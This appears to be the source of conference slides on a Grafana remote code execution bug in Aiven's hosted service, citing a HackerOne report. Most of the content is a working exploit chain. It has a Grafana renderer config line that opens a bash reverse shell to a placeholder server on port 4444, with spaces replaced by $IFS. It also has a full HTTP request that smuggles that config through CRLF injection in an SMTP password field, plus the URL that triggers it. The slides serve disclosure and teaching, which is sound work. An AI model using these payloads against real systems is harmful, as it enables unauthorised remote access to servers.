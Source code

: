 <BarBottom title="hackerone.com/reports/1200647">
  <Item text="@JJaaskela">
    <carbon:logo-twitter />
  </Item>
</BarBottom>

---

# Grafana RCE

- For some reason, could not pass white spaces, had to encode spaces using "$IFS"
- IFS env variable - Internal Field Seperator - can be used as space substitute

```txt
[plugin.grafana-image-renderer]
rendering_args=--renderer-cmd-prefix=bash$IFS-l$IFS>$IFS/dev/tcp/SERVER_IP/4444$IFS0<&1$IFS2>&1
```

<BarBottom title="hackerone.com/reports/1200647">
  <Item text="@JJaaskela">
    <carbon:logo-twitter />
  </Item>
</BarBottom>

---

# Grafana RCE

```http
PUT /v1/project/PROJECT_NAME/service/GRAFANA_INSTANCE_NAME HTTP/1.1
Host: console.aiven.io
Authorization: aivenv1 AIVEN_TOKEN_HERE
Content-Type: application/json

{
    "user_config": {
        "smtp_server": {
            "host": "example.org",
            "port": 1,
            "from_address": "x@examle.org",
            "password": "x\r\n[plugin.grafana-image-renderer]\r\nrendering_args=--renderer-cmd-prefix=bash -c 
            bash$IFS-l$IFS>$IFS/dev/tcp/SERVER_IP/4444$IFS0<&1$IFS2>&1"
        }
    }
}
```

- After config update, trigger rendering by browsing to https://GRAFANA_INSTANCE_NAME.aivencloud.com/render/x

<BarBottom title="hackerone.com/reports/1200647">
  <Item text="@JJaaskela">
    <carbon:logo-twitter />
  </Item>
</BarBottom>

---

[^1]: https://github.com/aiven/terraform-provider-aiven/blob/v2.1.9/aiven/templates/service_user_config_schema.json
[^1]: https://gist.github.com/frohoff/8e7c2bf3737032a25051
[^1]: https://docs.aiven.io/docs/products/kafka/kafka-connect/howto.html
[^1]: https://github.com/Jarijaas/helsec-1103